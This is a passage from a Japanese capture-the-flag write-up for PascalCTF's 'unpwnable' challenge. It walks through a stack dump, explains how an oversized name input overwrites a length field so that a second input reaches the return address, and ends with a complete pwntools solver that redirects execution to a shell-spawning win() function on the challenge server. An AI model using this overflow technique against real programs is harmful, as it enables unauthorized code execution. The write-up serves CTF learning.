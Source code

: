 ここで、`if (menu_select == 69)`直前ののスタックを見て見ました。

```
                                        menu selec
0x7fffffffe130: 0x000000000000000f      0x00000045 00000000

				buf
0x7fffffffe140: 0x0000000a41414141      0x000000000009928d
0x7fffffffe150: 0x00007fffffffe180      0x0000000000421d42
0x7fffffffe160: 0x00000000004b83c0      0x00000000004c80e8
0x7fffffffe170: 0x0000000000000000      0x00000000004cf2b8
0x7fffffffe180: 0x00007fffffffe1a0      01 00 00 00 00 | 51 00 00 00

0x7fffffffe190: 0x00007fffffffe230      0x00000000004037b8
```

0x0a41414141は私の入力「AAAA\n」であり、名前バッファ(name)と分かります。またその76byte先には0x51という数値が存在しており、これは10進数で81です。つまり、nameの先にはinput_sizeが存在していました。

さらには一度目の名前入力で、76byteのバッファ(name)には81byteの入力が許容されているため、input_sizeを81byteと言わずにリターンアドレスが存在する96byteに変更することもできます。

こうすれば1回目の81byteの入力ではnameから届かなかったリターンアドレスが、2度目の96byteの名前入力で上書きが可能となります。

また、win関数も存在していました(下記)

```c
void win(void)

{
  execve("/bin/sh",(char **)0x0,(char **)0x0);
  return;
}
```

シェルを起動するものなので、この関数アドレスでリターンアドレスを上書きすれば良いと分かります。これらの結果から作成したsolverが以下です。

```python
from pwn import *
file = './unpwnable'
elf = context.binary = ELF(file)
#p = process(file)
p = remote('unpwnable.challs.pascalctf.it', 1338)

payload = b'A'*76 + b'\x62'
p.sendline(payload)
p.recvuntil(b'stuff\n')
p.sendline(b'69')
p.recvuntil(b'it.\n')

payload = b'A'*88 + p64(elf.sym['win'])
p.sendline(payload)

p.interactive()
```
フラグ: `pascalCTF{N0O0o0o@O0_Hòw_D1D_Y0U_D0_17}`
